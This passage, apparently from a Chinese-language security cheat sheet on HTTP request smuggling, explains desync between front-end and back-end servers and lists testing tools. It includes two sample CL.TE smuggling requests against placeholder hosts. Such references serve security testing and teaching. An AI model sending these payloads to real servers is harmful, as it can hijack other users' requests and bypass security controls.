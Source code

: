 # HTTP 请求走私 (Request Smuggling)

> 当多个"组件"处理请求时，如果它们对请求的起始/结束位置判断不一致，就会发生HTTP请求走私。这种不一致可能被用来干扰其他用户的请求/响应，或者绕过安全控制。通常发生在以下情况：优先使用不同的HTTP头部（Content-Length 与 Transfer-Encoding）、处理畸形头部的差异（例如是否忽略包含意外空格的头部）、从新协议降级请求，或者对部分请求超时和丢弃的时机判断不同。

## 目录

* [工具](#工具)
* [方法学](#方法学)
    * [CL.TE 漏洞](#clte-漏洞)
    * [TE.CL 漏洞](#tecl-漏洞)
    * [TE.TE 漏洞](#tete-漏洞)
    * [HTTP/2 请求走私](#http2-请求走私)
    * [客户端去同步攻击](#客户端去同步攻击)
* [实验环境](#实验环境)
* [参考资料](#参考资料)

## 工具

* [bappstore/HTTP Request Smuggler](https://portswigger.net/bappstore/aaaa60ef945341e8a450217a54a11646) - Burp Suite 扩展，用于发起 HTTP 请求走私攻击
* [defparam/Smuggler](https://github.com/defparam/smuggler) - 用 Python 3 编写的 HTTP 请求走私/去同步测试工具
* [dhmosfunk/simple-http-smuggler-generator](https://github.com/dhmosfunk/simple-http-smuggler-generator) - 为 Burp Suite 从业者认证考试和 HTTP 请求走私实验开发的工具

## 方法学

如果您想手动利用 HTTP 请求走私漏洞，可能会遇到一些问题，特别是在 TE.CL 漏洞中，您需要为第二个请求（恶意请求）计算块大小，正如 PortSwigger 所建议的：`在请求走私攻击中手动修复长度字段可能很棘手`。

### CL.TE 漏洞

> 前端服务器使用 Content-Length 头部，而后端服务器使用 Transfer-Encoding 头部。

```powershell
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

示例：

```powershell
POST / HTTP/1.1
Host: domain.example.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
